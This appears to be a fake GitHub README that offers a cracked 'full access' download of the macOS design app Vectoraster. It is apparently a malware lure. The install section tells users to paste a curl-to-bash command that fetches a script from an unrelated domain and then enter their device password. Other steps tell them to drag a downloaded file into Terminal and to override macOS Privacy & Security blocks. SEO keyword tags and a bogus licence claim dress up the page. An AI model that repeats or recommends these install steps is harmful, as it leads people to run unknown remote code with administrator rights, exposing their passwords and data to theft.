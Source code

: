 <p align="center">
  <img src="https://i.ibb.co/CZnDrmY/1684337837-icon.webp" alt="Vectoraster macOS Banner" />
</p>

<h1 align="center">Vectoraster for macOS</h1>

<p align="center">
  🟣 Create high-resolution halftone and raster vector patterns from any image — control dots, lines, and shapes in real time.  
  <br><br>
  ✅ Native M1/M2/M3 support  
  ✅ Works on Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/224" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20VECTORASTER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Vectoraster for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/0yxtHgzY/1626599610-3.jpg" alt="Vectoraster UI Preview" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Vectoraster for macOS?

**Vectoraster** is a macOS-based pattern design tool that lets you convert bitmap images into custom halftone vector graphics. It allows full control over spacing, shapes, distortion, and raster modulation using any image source or gradients.

Export your generated patterns as SVG, PDF, PNG, or TIFF, with professional-level precision — perfect for digital artists, print designers, or experimental creators.

---

## ✅ Why Choose Vectoraster?

- 🟤 **Convert Images to Halftone Dot/Line Patterns**  
- 🧲 **Real-Time Pattern Generation and Adjustment**  
- 🖼️ **Supports Images, Gradients & Live Updates**  
- 📦 **Export to Vector Formats (SVG, PDF)**  
- 🖥️ **Optimized for Apple Silicon (M1/M2/M3)**  
- 🌀 **Dynamic Distortion and Animation Tools**  
- 🧱 **Control Frequency, Opacity, Scale, Angle**  
- 🎯 **Used in Print, Art, Branding, and Motion Design**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/2YFK5znx/1626599605-1.jpg" alt="Vector Shape Customization in Vectoraster" />
  <br><br>
  <img src="https://i.ibb.co/RTcND4HS/1626599675-2.jpg" alt="Live Preview and Export Options" />
</p>

---

## 🚀 Key Features

- Pattern generation from images or gradients  
- Live preview with real-time updates  
- Export to SVG, PDF, PNG, TIFF  
- Dot, line, and custom shape support  
- Raster modulation based on brightness, color, etc.  
- Supports animated raster changes  
- Grid and distortion tools  
- Retina UI and native Apple chip support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Vectoraster manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Halftone+Generator-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-SVG+PDF+Bitmap-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Vectoraster – Pattern Meets Precision

Thanks for using **Vectoraster for macOS**.  
Turn pixels into geometry — instantly.

---

## 🧭 Usage Context

This app is designed for offline creative workflows.  
All image processing and pattern generation occurs locally.

No cloud sync, no background tracking, fully contained.

---

## 🔍 Tags

```text
vectoraster for mac download, halftone generator app macos, convert bitmap to vector pattern mac, raster to vector tool for macbook, dot line shape raster editor mac, real time halftone preview mac, export vector pattern svg pdf mac, vectoraster mac m1 full version, generate print ready raster graphics mac, vectoraster professional mac design tool, abstract pattern maker mac apple silicon, halftone image converter mac native, distortion tool for vector halftones mac, vector raster image converter mac, vectoraster download mac offline installer
